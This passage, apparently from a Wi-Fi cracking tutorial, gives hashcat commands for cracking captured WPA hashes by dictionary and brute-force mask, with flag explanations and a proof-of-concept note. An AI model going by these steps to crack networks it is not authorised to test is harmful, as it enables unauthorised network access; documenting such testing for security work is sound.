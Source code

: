   ![hcxpcapng-hash](/images/wifi-cracking/hcxpcapng-hash.png)

  Technical detail of hxcpcapngtool can be found on the next section.

- Crack the password using hashcat

  ```
  # dictionary attack using wordlist
  hashcat -a 0 -m 22000 -w 4 hash-file.txt wordlist

  # brute-force mask attack, 8 lowercase letters
  hashcat -a 3 -m 22000 -w 4 hash-file.txt ?l?l?l?l?l?l?l?l

  Note:
  -a  : attack type       0 = dictionary, 3 = brute-force
  -m  : hash type         22000 = WPA-PBKDF2-PMKID+EAPOL
  -w  : workload profile  4 = nightmare (fastest)
  ```

  ![hashcat-poc](/images/wifi-cracking/hashcat-poc.png)

  We intentionally put the wifi in the dictionary as a proof of concept.

---